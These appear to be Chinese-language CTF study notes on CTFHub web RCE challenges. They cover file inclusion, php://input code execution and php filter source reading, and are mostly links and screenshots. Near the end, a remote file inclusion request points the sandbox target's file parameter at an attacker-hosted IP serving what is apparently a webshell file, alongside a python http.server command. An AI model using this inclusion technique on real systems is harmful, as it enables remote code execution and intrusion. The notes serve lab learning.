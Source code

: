 # ctfhub-web-RCE

## 文件包含 v

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240807214349.png)
## php://input
https://www.cnblogs.com/wjrblogs/p/12285202.html
https://blog.csdn.net/Xxy605/article/details/107644920
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240807215334.png)

php://input 携带 post 数据，可以执行 php 命令。通过 php 执行 cmd 命令
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240807220647.png)
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240807221021.png)

## 读取源代码
https://writeup.ctfhub.com/Skill/Web/RCE/366Ttyc8tGBiCyo54pR8YR.html
- 存在使用 base 64 输出的可能性
- https://tyskill.github.io/posts/php_filter_%E8%BF%87%E6%BB%A4%E5%99%A8/

## 文件包含
https://writeup.ctfhub.com/Skill/Web/RCE/64arrieDUUPZTc1eFm6LLC.html
`python3 -m http.server 8000` 当前文件夹下启动服务器。
```
http://challenge-41e185ac7cf175e4.sandbox.ctfhub.com:10800/?file=http://8.140.204.97:8000/yjh.txt
```